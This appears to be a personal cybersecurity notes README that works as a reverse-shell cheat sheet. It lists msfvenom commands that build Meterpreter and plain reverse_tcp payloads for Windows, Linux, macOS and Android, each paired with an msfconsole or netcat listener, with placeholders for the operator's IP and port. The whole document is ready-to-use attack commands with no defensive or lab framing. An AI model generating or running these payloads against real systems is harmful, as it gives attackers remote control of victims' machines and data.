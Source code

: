 # Security Notes
Documenting my journey in the world of CyberSecurity




##  Reverse Conneciton 

### Meterpreter
**Windows**

MSFVenom Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > payload.exe
```
MSFConsole Listener
```bash
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```
**Linux**  

MSFVenom Payload
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf > payload.elf
```
MSFConsole Listener
```bash
msfconsole -x "use exploit/multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```

**MACOS**

MSFVenom Payload
```bash
msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f macho > payload.macho
```

MSFConsole Listener
```
msfconsole -x "use exploit/multi/handler; set payload osx/x64/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```

**Android**  

MSFVenom Payload
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -o payload.apk
```

MSFConsole Listener
```
msfconsole -x "use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```

### Netcat

**Windows** 

MSFVenom Payload
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > payload.exe
```
Netcat Listener
```
nc -lvp <Your_Port>
```
**Linux**
 
MSFVenom Payload
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf > payload.elf
```
Netcat Listener
```
nc -lvp <Your_Port>
```
Replace <Your_IP> with your IP address and <Your_Port> with the desired port number for the reverse connection.
